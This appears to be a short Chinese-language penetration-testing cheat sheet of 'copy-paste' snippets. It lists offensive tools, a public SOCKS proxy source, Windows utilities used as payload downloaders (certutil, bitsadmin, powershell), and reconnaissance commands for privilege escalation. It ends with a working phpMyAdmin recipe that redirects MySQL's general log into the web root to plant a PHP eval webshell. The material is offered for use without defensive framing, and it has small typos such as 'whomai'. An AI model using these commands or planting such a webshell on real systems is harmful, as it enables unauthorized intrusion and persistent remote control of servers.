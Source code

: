 ```yaml
---
title: 常用复制粘贴
---
```



经常公布socks代理：[http://livesocksupdate.blogspot.com/](http://livesocksupdate.blogspot.com/)

pentesters arsenal tools:

- Metasploit
- Burp Suite
- w3af
- mitmproxy
- sqlmap
- Faraday
- fuzzdb
- radare2
- Nikto2
- nmap
- sublist3r

downloader常用方法如下：

·  certUtil
·  powershell
·  csc
·  vbs
·  JScript
·  hta
·  bitsadmin
·  wget
·  debug
·  ftp
·  ftfp

cmd 提权常用命令

    systeminfo | findstr OS #获取系统版本信息
    hostname  #获取主机名称
    whomai /priv  #显示当前用户的安全特权
    quser or query user  #获取在线用户
    netstat -ano | findstr 3389  #获取rdp连接来源IP
    dir c:\programdata\ #分析安装杀软
    wmic qfe get Caption,Description,HotFixID,InstalledOn  #列出已安装的补丁
    REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber  #获取远程端口
    tasklist /svc | find "TermService" + netstat -ano  #获取远程端口

phpmyadmin general_log 添加webshell

    set global general_log = 1;
    set global general_log_file ='D:/phpStudy4IIS/WWW/phpmyadmin/aa.php';
    select '<?php eval($_REQUEST[123]);?>';
    set global general_log = 0;
    set global general_log_file =null;
